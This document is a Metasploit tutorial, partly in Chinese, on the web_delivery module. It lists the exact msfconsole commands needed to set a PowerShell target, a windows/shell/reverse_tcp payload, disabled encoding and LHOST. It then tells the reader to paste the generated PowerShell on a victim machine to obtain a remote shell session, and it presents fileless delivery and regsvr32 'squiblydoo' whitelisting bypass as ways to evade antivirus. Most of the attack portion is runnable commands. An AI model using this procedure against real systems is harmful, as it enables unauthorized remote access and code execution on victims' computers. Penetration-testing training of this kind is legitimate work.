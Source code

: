 Script Web Delivery 是一个 Meterpreter 模块，它允许攻击者通过 Web 服务器将有效载荷交付到受害者计算机。该模块提供了多种交付方式，包括使用指定的脚本语言解释器或通过 regsvr32.exe 使用 "squiblydoo" 绕过应用程序白名单。使用此模块时，有效载荷不会写入磁盘，因此不太可能触发 AV 解决方案。此外，该模块还提供了一种快速建立会话的方法，以便攻击者可以在目标机器上执行命令。

```
msfconsole
search web_delivery
use exploit/multi/script/web_delivery # use 1
show options
```

This particular exploit modules sets up a web server that hosts a payload based on the target operating system. Once you hit exploit, it then generates some PowerShell code, because in this case, we're targeting Windows. And this particular module supports Python, PHP, Windows, Linux, we'll then copy that PowerShell code and execute it on the target system, which will consequently download the payload that is being hosted on the web server and execute it, that will consequently provide us with a standard command shell session, which we can then upgrade to a meterpreter session.

We're going to set the target to PowerShell.

```
set target PSH\ (Binary)
```

We are then going to set the payload. We're going to obtain a simple command shell session.

```
set payload windows/shell/reverse_tcp
```

We also want to disable the PowerShell code from being encoded in base64.

```
set PSH-EncodedCommand false
```

We still need to configure the payload options.

```
set LHOST eth1
```

```
exploit
```

It will generate some PowerShell code. Copy all of this PowerShell code. And head over to the victim system. We'll open up the search menu here and open up a command prompt session. Paste in the command that you copied.

```
cmd
```

If you take a look at the Kali system, we have obtained access to the target system. 

```
sessions
sessions 1
```
